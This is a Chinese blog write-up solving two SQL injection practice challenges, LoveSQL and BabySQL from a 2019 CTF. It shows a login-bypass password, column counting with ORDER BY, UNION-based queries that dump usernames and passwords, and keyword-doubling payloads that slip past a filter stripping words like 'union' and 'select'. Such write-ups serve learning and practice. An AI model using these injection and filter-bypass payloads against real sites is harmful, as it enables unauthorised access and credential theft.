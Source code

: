 ```yaml
---
title: 极客大挑战 2019 LoveSQL，BabySQL
date: 2024-09-13 19:16:12
permalink: /pages/7402d2/
sidebar: false
categories:
  - n日一题
author: 
  name: the0n3
  link: https://the0n3.top
---
```

## [极客大挑战 2019]LoveSQL

提交参数，url后拼接了参数和值

![1](/medias/daily/lovesql/1.png)

hackbar测试admin用户万能密码，可以成功登录。username的`#`井号需要url编码

![2](/medias/daily/lovesql/2.png)

`order by`测试字段数，3正常，4报错。只有3个字段

![3](/medias/daily/lovesql/3.png)

联合注入，2，3是回显位

![4](/medias/daily/lovesql/4.png)

使用hackbar自带的sql注入，爆出库，表`geekuser`,`l0ve1ysq1`，字段`username`,`password`

![5](/medias/daily/lovesql/5.png)

![6](/medias/daily/lovesql/6.png)

hackbar没有具体到字段数据，写一个查数据语句

```sql
union select 1,group_concat(username,password),3 from l0ve1ysq1
```

拿到flag

## [极客大挑战 2019]BabySQL

上一题的万能密码拿来用报错了

![7](/medias/daily/lovesql/7.png)

双写or，发现就可以过了，说明这题过滤了常用字符串，替换成空格，导致题目报错

![8](/medias/daily/lovesql/8.png)

双写联合注入

![9](/medias/daily/lovesql/9.png)

查询语句的from,where,information里的`or`也被吞掉了，需要双写
![10](/medias/daily/lovesql/10.png)

查表`b4bsql,geekuser`，查字段`id,username,password`，查数据

```sql
# 爆表
ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema=database()
# 爆字段
ununionion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_schema=database()
# 爆数据，password的or也要双写
ununionion seselectlect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql%23
```

![11](/medias/daily/lovesql/11.png)